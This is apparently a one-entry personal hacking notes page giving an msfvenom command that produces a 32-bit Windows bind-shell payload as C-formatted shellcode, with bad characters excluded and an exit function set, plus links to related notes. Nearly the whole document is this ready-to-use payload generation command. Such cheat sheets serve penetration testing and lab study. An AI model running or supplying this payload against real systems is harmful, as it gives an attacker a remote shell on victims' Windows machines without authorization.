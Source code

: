 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Bind Shell Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=$LHOST LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

# References
- [20221003150773](/zet/20221003150773/) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Bind Shell
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted

